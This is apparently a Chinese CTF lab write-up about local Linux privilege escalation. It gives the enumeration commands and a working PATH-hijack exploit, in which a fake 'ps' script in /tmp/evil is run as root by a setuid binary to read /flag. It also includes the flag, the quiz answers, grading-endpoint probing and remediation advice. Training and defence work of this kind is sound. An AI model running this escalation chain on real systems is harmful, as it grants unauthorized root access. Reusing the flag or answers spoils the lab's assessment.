








# 2-2 内网渗透与高级社工 · 权限提升维持（Linux SUID + PATH 劫持）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 内网渗透与高级社工-权限提升维持-G2（平台章节 7255，实战 Flag 题 11223） |
| 分类 | Linux 本地提权 / SUID 程序 + PATH 劫持 |
| 题目描述 | 靶机提供一个低权限账号 `player` 的 Web 终端，要求在已立足的前提下完成本地权限提升，读取仅 root 可读的 `/flag` 并把内容作为 flag 提交。 |

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 实训平台，课程 1639，章节 7255《内网渗透与高级社工-权限提升维持-G2》 |
| 靶机 Web 终端 | http://172.17.0.13:12219/ （ttyd，打开即为 `player` 已登录 shell，服务端以 `runuser -u player -- bash -l` 启动） |
| SSH | `172.17.0.13:12214`（`player` 账号，密码未知，本次全程未使用） |
| 操作方式 | 用本地脚本 `.local/process/ttyd_drive.py` 通过 WebSocket 驱动 ttyd 下发命令：`python3 .local/process/ttyd_drive.py 172.17.0.13:12219 "<命令>"`（实测可用） |
| 备注 | 本节 4 道选择题与 flag 题均已在平台提交并全部判对（11093 A、11095 C、11097 B、11099 A/B，flag 题 11223 通过），选择题过程按约定略去 |

## 解题过程

### 1. 确认目标与立足环境

打开 Web 终端即进入 `player` 的已登录 shell，无需自行登录；本次操作全部通过本地脚本驱动该终端完成（例如 `python3 .local/process/ttyd_drive.py 172.17.0.13:12219 "id"`）。题目目标是读取 `/flag`，而该文件预期仅 root 可读，因此本题的关键是找到一条可用的本地提权路径。

### 2. 立足确认：`id` 与 `sudo -l`（失败尝试一）

先确认当前身份，并检查 sudo 是否误放行：

```
$ id; sudo -l
uid=1000(player) gid=1000(player) groups=1000(player)
sudo: unable to resolve host 3c06f09c517b: Temporary failure in name resolution
[sudo] password for player:
```

- 观察到 `sudo -l` 要求输入 `player` 的密码，而该密码未知；
- 失败原因：走 sudo 提权的前提是能提供账号口令；本题既没有拿到口令，也没有暴露 `NOPASSWD` 条目；
- 如何调整：放弃 sudo 路线，转向 SUID / capabilities 枚举，寻找「不需要口令即可借用 root 上下文」的程序。



### 3. 提权枚举：SUID 程序与 capabilities

按实验手册的枚举清单执行：

```
$ find / -perm -4000 -type f 2>/dev/null; echo ===CAP===; getcap -r / 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/local/bin/svcstat
===CAP===
（无输出）
```

- `getcap` 无任何输出：capabilities 方向没有可用的提权面；
- 标准路径下的 `chfn`、`chsh`、`gpasswd`、`mount`、`passwd`、`su`、`sudo`、`umount` 等系统自带 SUID 程序行为固定、通常不可直接滥用，属于「看起来像捷径、实为噪声」的项；
- 唯一异常项是 `/usr/local/bin/svcstat` —— 非标准发行版组件、位于 `/usr/local/bin`，被列为重点怀疑对象。



### 4. 失败尝试二：`strings` / `file` 静态分析不可用

想先在本地静态分析该二进制：

```
$ ls -la /usr/local/bin/svcstat; file /usr/local/bin/svcstat; strings /usr/local/bin/svcstat
-rwsr-xr-x 1 root root 16064 Aug 15 10:02 /usr/local/bin/svcstat
bash: strings: command not found
```

- 观察到：文件权限位 `-rwsr-xr-x`，属主 root，即 **setuid-root** 程序；但靶机未安装 `strings`，`file` 也没有输出；
- 失败原因：靶机精简，缺少常用分析工具，无法做静态字符串分析；
- 如何调整：改为「直接运行 + 观察进程树」，用行为分析代替静态分析——这一步反而直接暴露了漏洞点。

### 5. 分析 `/usr/local/bin/svcstat`：定位相对路径调用

直接运行 `svcstat`，它输出了一份进程列表（行为等价于 `ps -ef`）：

```
$ svcstat
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 15:08 ?        00:00:00 ttyd -p 80 -W runuser -u player -- bash -l
...
root          57      54  0 15:14 pts/4    00:00:00 svcstat
root          58      57  0 15:14 pts/4    00:00:00 sh -c ps -ef
root          59      58  0 15:14 pts/4    00:00:00 ps -ef
```

关键证据有两点：

1. `svcstat` 自身与其子进程都以 `root` 身份运行，说明它启动后**没有降权**（有效 UID 保持 0）；
2. 它的实现方式是 `sh -c "ps -ef"` —— 通过 shell 以**相对路径**（裸命令名 `ps`）调用外部程序，且未重置 `PATH`。

也就是说，只要在可控目录放一个同名 `ps` 并把它前置到 `PATH`，`svcstat` 就会以 root 身份执行我们的脚本——典型的 PATH 劫持。该模式与本节选择题中描述的「setuid-root 程序用相对路径调外部命令、不重置 PATH」漏洞完全一致。



### 6. 失败尝试三：第一次写恶意 `ps` 被 `!` 历史展开打断

第一次构造 `/tmp/evil/ps` 时脚本内容带了 `#!/bin/sh` 首行，经 ttyd 下发到远端 bash 后，`!` 被 bash 当作历史展开触发，`printf` 根本没有执行：

```
bash: !/bin/sh\ncat: event not found
```

- 失败原因：远端是非交互式但同样开启了历史展开（`histexpand`）的 bash，`!` 后跟 `/bin/sh` 这类内容会报 `event not found`，导致整条写入命令中断；
- 如何调整：**去掉 shebang 行**（`ps` 会被 shell 按脚本解释执行，不依赖 shebang），并在写入前先 `set +H` 关闭历史展开，重试成功。

### 7. 构造 `/tmp/evil/ps` 并实施 PATH 劫持

写入恶意 `ps` 并前置 `PATH` 运行 `svcstat`：

```
$ mkdir -p /tmp/evil; printf "cat /flag > /tmp/flag.out\nchmod 666 /tmp/flag.out\n" > /tmp/evil/ps; chmod +x /tmp/evil/ps
$ PATH=/tmp/evil:$PATH svcstat >/dev/null 2>&1; echo ===; cat /tmp/flag.out
===
vmc{JKYeyx95dCfC5IkaWb4z0dfuMn8cauLJ}
```

`svcstat` 以 root 身份执行 `sh -c "ps -ef"` 时，在 `/tmp/evil` 命中了伪装的 `ps` 脚本：

- `cat /flag > /tmp/flag.out`：以 root 读取仅 root 可读的 `/flag`，落到 `/tmp/flag.out`；
- `chmod 666 /tmp/flag.out`：放开权限，让低权限的 `player` 也能读回结果。



### 8. 交叉验证提权确实以 root 生效

对照检查 `/flag` 与产物文件的权限和属主，并确认 `player` 直读 `/flag` 会失败：

```
$ ls -la /flag /tmp/flag.out; cat /flag; echo RC=$?
-rw------- 1 root root 38 Sep 19 15:08 /flag
-rw-rw-rw- 1 root root 38 Sep 19 15:15 /tmp/flag.out
cat: /flag: Permission denied
RC=1
```

- `/flag` 权限 `-rw-------`（仅 root 可读），`player` 直接 `cat` 被拒绝（`RC=1`）；
- `/tmp/flag.out` 由 root 属主创建（内容与 flag 一致），证明劫持的 `ps` 确实在 root 上下文中执行，提权链路成立；
- 第 7、8 步读到的内容一致，flag 交叉验证通过。



### 9. 失败尝试四：答案提交格式错误（含判分端点探测）

第一次提交答案时用了纯文本格式：单选填 `"A"`、多选填 `"AB"`、填空直接填 flag 文本。平台返回 `scoreRate: 0`，`answerHistory` 中全部 `isCorrect: false`；填空题的 `studentAnswer` 被规范化为 `{"num":0,"answer":["",""]}`，提交的值被丢弃。

- 失败原因：平台要求 `answers[].answer` 是 **JSON 字符串**，且不同题型有固定结构，纯文本会被判为无效；
- 如何调整：先查已判对的章节 7245 作为样板反推结构——单选 `{"answer":["A"],"num":1}`、多选 `{"answer":["A","B"],"num":2}`、填空 `{"num":3,"answer":["","","vmc{...}"]}`，按此重新提交后全部判对（提交与判分结果见环境信息备注）；
- 附带探测（同样失败，按记录如实保留）：`selfJudge` 返回 `{"code":10105,"msg":"rate is less than 1"}`，`testPaper` 返回 `{"code":10105,"msg":"answers are not allowed at this time"}`，`newTestPaper` 之后返回 `{"code":10095,"msg":"path is not exists"}`；按课程与同伴口径，判分以 `answerHistory.isCorrect` 为准，这些端点不显示分数属正常现象。

### 10. 解题过程中的 AI 助教问答（截图 06–08）

围绕 setuid 程序的相对路径调用与权限维持面，向课程教学问答平台（Qwen2.5）提了 3 个问题：

**问题 1：setuid-root 程序用相对路径调用外部命令、又不重置 PATH，为什么会被 PATH 劫持？**（截图 06）——确认命令名不带 `/` 时按 `PATH` 顺序查找，`PATH` 未重置且可被低权限用户前置恶意目录，就会让 root 上下文执行攻击者的同名程序。



**问题 2：操作系统/glibc 对 setuid 程序有哪些内置加固，为什么挡不住这类问题？**（截图 07）——`LD_PRELOAD`、`LD_LIBRARY_PATH` 等在安全执行模式下会被忽略，但 `PATH` 不在加固清单中；程序必须自己用绝对路径调用外部命令或显式重置环境变量。这解释了为什么 `/usr/local/bin/svcstat` 会被 `PATH=/tmp/evil:$PATH` 利用。



**问题 3：为什么把维持任务写在 `/etc/cron.d/` 比用户 crontab 更「高级」？**（截图 08）——系统级条目可指定以 root 身份执行、对所有用户生效；用户 crontab 只以该用户身份、只对本人生效。本题只要求读 `/flag`，但该问答补全了本系列「权限提升维持」的维持面认知。



## Flag

```
vmc{JKYeyx95dCfC5IkaWb4z0dfuMn8cauLJ}
```

## 总结与心得

### 漏洞原理

1. **setuid-root 程序未重置 `PATH`、以相对路径调用外部命令（核心）**：`/usr/local/bin/svcstat` 以 root 有效身份运行且不降权，内部通过 `sh -c "ps -ef"` 调用 `ps`。命令名 `ps` 不带路径，会沿调用者的 `PATH` 查找；攻击者只要在可控目录（如 `/tmp/evil`）放入同名程序并把该目录前置到 `PATH`，就能让 root 进程执行自己的代码。这是 GTFOBins 类「特权程序调用外部命令」风险的典型形态——类似问题也存在于调用 `find`、`cat`、`ping` 等外部命令的 SUID 程序中。
2. **提权后无降权**：程序全程保持 euid=0 执行子进程，一旦子进程被劫持，等同直接获得 root。
3. **枚举面暴露**：`/usr/local/bin` 下的非标准 SUID 程序在 `find -perm -4000` 中一眼可见，说明该环境未对 SUID 程序做定期审计与收敛。

### 做题方法

- **先枚举后利用**：`id` → `sudo -l` → `find / -perm -4000` → `getcap -r /`，按实验手册顺序收窄攻击面，再决定利用点。
- **区分诱饵**：系统自带的 `passwd`、`su`、`mount` 等标准 SUID 程序不是本题路径；`/usr/local/bin/svcstat` 才是异常项。
- **静态分析不可用时改行为分析**：`strings`/`file` 不可用并不阻塞解题，直接运行并观察 `ps` 输出中的 PPID 链，反而直接暴露了 `sh -c ps -ef` 的实现。
- **读产物验证，不猜结果**：不满足于「命令跑通」，而是对照 `/flag` 与 `/tmp/flag.out` 的权限、属主和内容，确认 flag 确实由 root 读出。
- **失败尝试同样有信息量**：sudo 无密码 → 转向 SUID；工具缺失 → 改行为分析；`!` 历史展开中断写入 → `set +H` + 去 shebang；提交格式判错 → 参照已判对章节反推 JSON 结构。四次失败都对应一次明确的方向调整。

### 修复建议

- **程序内使用绝对路径调用外部命令**（如 `/bin/ps`），避免依赖 `PATH` 解析；
- **在 setuid 程序中重置环境**：启动时清理/重设 `PATH`（如固定为安全值），或直接以 `execve` 指定受控的 `envp`；
- **及时降权**：仅在必要的操作上使用特权，`setuid()` / `seteuid()` 切回真实用户后再执行外部命令，或改用 `fork` + 降权执行；
- **定期审计 SUID/SGID 程序**（尤其 `/usr/local`、`/opt` 等非发行版路径），及时移除不必要的 setuid 位；
- **监控 `/tmp` 等世界可写目录下的可疑可执行文件**，并对特权进程的子进程链（如 SUID 程序调用 shell / 外部命令）做告警；
- 演练环境中的遗留物（`/tmp/evil/ps`、`/tmp/flag.out`）应能在结束后按记录清理，保证演练可审计、可回滚。
